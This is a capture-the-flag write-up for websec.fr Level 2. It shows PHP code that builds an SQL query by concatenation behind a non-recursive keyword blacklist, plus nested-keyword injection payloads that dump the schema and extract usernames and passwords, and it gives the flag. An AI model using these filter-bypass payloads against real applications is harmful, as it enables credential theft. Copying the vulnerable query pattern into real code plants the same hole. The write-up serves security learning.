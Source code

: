 # Level 2
## Description
Challenge URL: https://websec.fr/level02/index.php  

This application is the same as the [previous one](https://websec.fr/level01/index.php) (You can [check by yourself](https://websec.fr/level02/source.php) if you don't trust us). However, the developers saw the logs and found that the application was being attacked so they filtered out some of the database keywords which made it possible.

The following keywords were found to be filtered by the application using [preg_replace ()](https://secure.php.net/preg_replace): `union`, `order`, `select`, `from`, `group`, `by`.


## Solution
The source of code of this challenge is:
```php
<?php
ini_set('display_errors', 'on');

class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    $lt = new LevelTwo ();
    $userDetails = $lt->doQuery ($_POST['user_id']);
}
?>
```

Here, the `implode()` function joins words from the array with a `|` as the separator. Next, the `preg_replace()` performs **find and replace** operation.
> The `/` and `/i` that wrap around the `$searchWords` is the syntax to declare a regular expression pattern. 

From these information, this application removes filtered words, namely `union`, `order`, `select`, `from`, `group`, `by`.
> Or we can see this on the challenge description.

## Exploitation
As we know that `union`, `select`, etc. will be replaced by an empty string `''`, so the payload `0 UNION SELECT 1, 1` will become `0  1, 1`. However, this function does not perform **recursive match and replace** which means `UNIUNIONON` will become `UNION`.  

What this in mind, we can craft a payload as follows:
```sql
0 UNIUNIONON SESELECTLECT name, sql FRFROMOM sqlite_master WHERE type='table'
```

This results in  

![image](https://user-images.githubusercontent.com/44528004/132819301-a05b1ec5-be10-4fff-969f-bf489e303cb7.png)  

Then, we craft another payload to extract `username` and `password`:
```sql
0 UNIUNIONON SESELECTLECT username, password FRFROMOM users
```

The result is  

![image](https://user-images.githubusercontent.com/44528004/132819409-0ddf56ac-88c5-424e-86d7-ced858ab4617.png)
> Flag: `WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`
